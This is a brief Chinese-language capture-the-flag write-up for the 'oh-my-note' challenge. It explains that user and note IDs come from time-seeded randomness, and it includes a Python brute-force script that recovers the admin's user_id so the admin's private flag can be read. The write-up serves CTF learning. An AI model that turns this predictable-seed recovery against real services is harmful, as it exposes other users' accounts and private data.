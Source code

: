 ## oh-my-note

用户不存在时会创建用户，并同时新建note

![](..\images\starctf_xmaq-01.png)

note id和user_id随机种子不同，但是note_id的种子使用了user_id

虽然对于时间戳我们只能知道分钟级别的，但是题目只精确到了四位，再算上60秒只需爆破60*10000次就能算出user_id，注时区不同所以在本地使用time.strptime得加8个小时。。。

```python
import random
import datetime
import time
import string
def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])
post_at = '2021-01-15 02:29 UTC'
l = [i/10000 for i in range(0, 10000)]
for j in range(0,60):
    ta1 = time.strptime('2021-01-15 10:29:{} UTC'.format(j), '%Y-%m-%d %H:%M:%S UTC')
    ta = int(time.mktime(ta1))
    for i in l:
        t = ta + i
        random.seed(t)
        u_id = get_random_id()
        random.seed(u_id + post_at)
        p_id = get_random_id()
        if p_id == 'lj40n2p9qj9xkzy3zfzz7pucm6dmjg1u':
            print(u_id)
        
        if(i*10000 % 8999 == 0):
            print(i, t)
```

算出admin的user_id就能看到它发布的私有的flag
